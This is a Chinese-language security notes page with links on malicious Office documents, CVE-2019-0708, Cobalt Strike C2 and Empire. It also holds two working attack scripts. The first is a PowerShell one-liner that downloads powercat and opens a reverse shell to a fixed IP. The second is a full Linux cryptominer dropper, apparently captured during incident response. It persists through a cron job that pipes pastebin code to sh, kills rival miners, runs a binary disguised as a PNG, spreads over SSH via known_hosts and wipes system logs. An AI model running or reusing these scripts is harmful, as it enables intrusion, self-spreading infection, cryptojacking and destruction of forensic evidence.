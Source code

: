 [用于创建恶意MS Office文档的跨平台助手:Clippy](https://github.com/outflanknl/EvilClippy/blob/master/README.md)

[CVE-2019-0708三月份就在暗网出卖该漏洞了?](https://m.habr.com/en/company/jetinfosystems/blog/451852/)

[个人如何销毁不用的旧硬盘？](https://www.zhihu.com/question/20648742/answer/681550714?utm_source=com.tencent.tim&utm_medium=social&utm_oi=1061728264317358080)

[可疑出站RDP规则可能识别CVE-2019-0708](https://github.com/yt0ng/sigma/blob/275896dbe6ca3a9e2f69258ddc234b692f838bba/rules/windows/sysmon/sysmon_susp_rdp.ymlm)

[用于Websockets的CobaltStrike外部C2:raven](https://github.com/xorrior/raven)

一个用于反弹shell的ps1脚本
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1’);powercat -c 10.0.0.108 -p 4444 -e cmd -v
```

[Empire源码分析（一）](https://tttang.com/archive/1281/)

[影响所有苹果设备的无线漏洞，可被强行接入恶意热点](http://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651075391&idx=2&sn=32c3317d114600b1bd1f00cfeafd5251&chksm=bd1fa1b48a6828a24a8c10352f9cc0019a7c886d3752f1ffea2cb323b49510c7c6c7edc3560c&mpshare=1&scene=23&srcid=#rd)

[蓝队网络数据分析](https://github.com/12306Bro/data-collection/blob/master/README.md)

群内老哥在做应急时遇见的朝鲜矿马
```
export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin

mkdir -p /tmp
chmod 1777 /tmp

echo "*/15 * * * * (curl -fsSL hTTps://pastebin.com/raw/XRz5LD3V||wget -q -O- hTTps://pastebin.com/raw/XRz5LD3V)|sh" | crontab -

ps -ef|grep -v grep|grep hwlh3wlh44lh|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep Circle_MI|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep get.bi-chi.com|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep hashvault.pro|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep nanopool.org|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep /usr/bin/.sshd|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep /usr/bin/bsd-port|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "xmr"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "xig"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "ddgs"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "qW3xT"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "wnTKYg"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "t00ls.ru"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "sustes"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "thisxxs"|awk '{print $2}' | xargs kill -9
ps -ef|grep -v grep|grep "hashfish"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "kworkerds"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "/tmp/devtool"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "systemctI"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "sustse"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "axgtbc"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "axgtfa"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "6Tx3Wq"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "dblaunchs"|awk '{print $2}'|xargs kill -9
ps -ef|grep -v grep|grep "/boot/vmlinuz"|awk '{print $2}'|xargs kill -9

rm -rf /tmp/busybox
cd /tmp
touch /usr/local/bin/writeable && cd /usr/local/bin/
touch /usr/libexec/writeable && cd /usr/libexec/
touch /usr/bin/writeable && cd /usr/bin/
rm -rf /usr/local/bin/writeable /usr/libexec/writeable /usr/bin/writeable
export PATH=$PATH:$(pwd)
if [ ! -f "/tmp/.XIMunix" ] || [ ! -f "/proc/$(cat /tmp/.XIMunix)/io" ]; then
   chattr -i kerberods
   rm -rf kerberods
   ARCH=$(uname -m)
   if [ ${ARCH}x = "x86_64x" ]; then
       (curl --connect-timeout 30 --max-time 30 --retry 3 -fsSL img.sobot.com/chatres/89/msg/20190514/895a0891a3c04440a94a407cbd758564.png -o kerberods||wget --timeout=30 --tries=3 -q img.sobot.com/chatres/89/msg/20190514/895a0891a3c04440a94a407cbd758564.png -O kerberods)||python -c "import urllib2;exec(urllib2.urlopen('https://pastebin.com/raw/0DqEa3Gn').read())";
   else
       (curl --connect-timeout 30 --max-time 30 --retry 3 -fsSL img.sobot.com/chatres/89/msg/20190514/b816dde825964d7ca4af0ee7dc43203b.png -o kerberods||wget --timeout=30 --tries=3 -q img.sobot.com/chatres/89/msg/20190514/b816dde825964d7ca4af0ee7dc43203b.png -O kerberods)||python -c "import urllib2;exec(urllib2.urlopen('https://pastebin.com/raw/Xu86DLj0').read())";
   fi
       chmod +x kerberods
       $(pwd)/kerberods || /usr/bin/kerberods || /usr/libexec/kerberods || /usr/local/bin/kerberods || kerberods || ./kerberods || /tmp/kerberods || /usr/sbin/kerberods
fi

if [ -f /root/.ssh/known_hosts ] && [ -f /root/.ssh/id_rsa.pub ]; then
 for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h '(curl -fsSL hTTps://pastebin.com/raw/XRz5LD3V||wget -q -O- hTTps://pastebin.com/raw/XRz5LD3V)|sh >/dev/null 2>&1 &' & done
fi

for file in /home/*
do
   if test -d $file
   then
       if [ -f $file/.ssh/known_hosts ] && [ -f $file/.ssh/id_rsa.pub ]; then
           for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h '(curl -fsSL hTTps://pastebin.com/raw/XRz5LD3V||wget -q -O- hTTps://pastebin.com/raw/XRz5LD3V)|sh >/dev/null 2>&1 &' & done
       fi
   fi
done

echo 0>/var/spool/mail/root
echo 0>/var/log/wtmp
echo 0>/var/log/secure
echo 0>/var/log/cron
#
```


